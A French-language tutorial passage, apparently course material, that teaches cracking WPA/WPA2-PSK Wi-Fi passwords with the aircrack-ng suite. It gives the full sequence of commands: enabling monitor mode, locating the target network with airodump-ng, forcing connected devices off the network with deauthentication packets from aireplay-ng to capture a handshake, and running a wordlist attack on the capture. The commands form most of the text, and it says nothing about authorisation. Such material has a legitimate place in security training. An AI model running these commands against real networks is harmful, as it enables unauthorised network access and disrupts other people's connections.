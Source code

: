 # 2. Crack de réseaux Wi-Fi

Dans ce cours, nous allons nous intéresser seulement au WPA/WPA2 pour éviter de trop s'étaler sur la durée.

## Comment ça fonctionne ?

À chaque fois que vous vous connectez sur un réseau Wi-Fi, un "handshake" est envoyé de votre appareil au routeur.

Ce handshake contient le mot de passe encrypté qu'on ne peut pas décrypter.

Cependant, ce que nous pouvons faire, c'est tout simplement utiliser une "wordlist"
et encrypter chaque entrée puis la comparer avec le mot de passe encrypté du handshake.

Lorsqu'on trouve une correspondance entre les deux, on détermine ainsi le mot de passe du réseau.

## Démonstration pour un réseau WPA/WPA2 PSK

### Prérequis

#### Appareil "attaquant"

L'appareil que l'on va utiliser pour faire l'attaque doit avoir une carte Wi-Fi
qui supporte le mode `monitor`. Pour vérifier cela, on peut exécuter `iw list` et vérifier si `monitor`
est présent dans `Supported interface modes`.

Dans notre cas, nous allons utiliser une Raspberry Pi 4B avec l'image de Kali Linux d'installé.

Il faut savoir que pour supporter le mode `monitor` sur une RPi, il faut avoir un patch qui est préinstallé
dans cette image Kali Linux.

#### Appareil "target"

Cet appareil doit être déjà connecté au réseau, c'est "grâce" à lui qu'on va
récupérer un hash.

#### Un réseau Wi-Fi configuré en WPA/WPA2 PSK

Le réseau qu'on va attaquer. L'appareil "target" doit être connecté dessus pour simplifier la procédure.

### Passer son interface réseau en mode `monitor` sur l'appareil "attaquant"

On va utiliser la commande `airmon-ng` pour démarrer le mode `monitor` sur l'interface `wlan0`.

> À noter que l'interface Wi-Fi peut changer en fonction de l'appareil,
> on peut la récupérer avec la commande `ip addr`.

```bash
sudo airmon-ng start wlan0
```

Maintenant, on va tuer les processus qui pourraient interférer avec notre interface.

On peut faire ceci avec la commande prévue à l'effet...

```bash
sudo airmon-ng check kill
```

> Note: Notre interface `wlan0` à maintenant changé de nom.

On peut vérifier le fait que notre interface est bien en mode `monitor` en utilisant `iwconfig`.

```console
$ iwconfig
...
wlan0mon    ... Mode:Monitor ...
...
```

### Récupérer le BSSID du réseau qui nous intéresse

On va utiliser la commande `airodump-ng` pour obtenir une liste des réseaux
disponibles proche de nous depuis notre interface.

```bash
sudo airodump-ng wlan0mon
```

On identifie le nom du réseau grâce au ESSID.

Ce qui nous intéresse ici, est le **BSSID** et le channel **CH**, qu'il faudra noter pour la prochaine partie.

### Récupérer un handshake

> Imaginons que le BSSID que nous avons repéré est `BS:SS:ID:AA:BB:CC` et que le channel que nous avons pu récupérer est `1`.

Nous pouvons maintenant obtenir une liste des appareils connectés au réseau, toujours en utilisant `airodump-ng`

```bash
sudo airodump-ng -d BS:SS:ID:AA:BB:CC -w nom_du_fichier_export -c 1 wlan0mon
```

Ici, `-d` correspond au BSSID, `-w` le fichier contenant le handshake qu'on va dump et `-c` le channel obtenu précédemment.

Maintenant, si vous vous souvenez, pour obtenir un handshake, il faut qu'un appareil se connecte au réseau.
Vu que cela peut prendre du temps, on peut accélérer le processus en envoyant des packets de déconnexion vers un appareil, l'appareil "target".

Ainsi, on peut ouvrir un nouveau terminal pour essayer de forcer un appareil à se déconnecter du réseau - on part du principe que l'appareil va automatiquement se reconnecter au réseau.

```bash
sudo aireplay-ng -0 0 -a BS:SS:ID:AA:BB:CC -c AA:BB:CC:DD:EE:FF wlan0mon
```

`-0` veut dire que les packets qu'on veut envoyer sont ceux pour la déconnexion (deauth).
Le `0` en valeur de `-0` veut dire qu'on envoie un nombre indéterminé de packets.
`-a` est l'adresse du routeur et `-c` est l'adresse de l'appareil "target".

On laisse tourner jusqu'à ce qu'on ait `WPA handshake: AA:BB:CC:DD:EE:FF` dans la première ligne de notre premier terminal.
Lorsque ce message s'affiche, ça veut dire que vous avez capturé un handshake.

Vous pouvez maintenant fermer tout les terminaux.

### Cracker le mot de passe en utilisant le handshake capturé

Nous pouvons constater la création de plusieurs fichiers le dossier où la commande a été exécuté.

Celui que nous utiliserons sera celui qui se termine par l'extension `.cap`.

Pour cracker le mot de passe, nous allons utiliser la commande `aircrack-ng`.

```bash
aircrack-ng -w ./maWordList.txt ./monFichier.cap
```

Maintenant, vous pouvez attendre jusqu'à avoir une `"KEY FOUND"` !
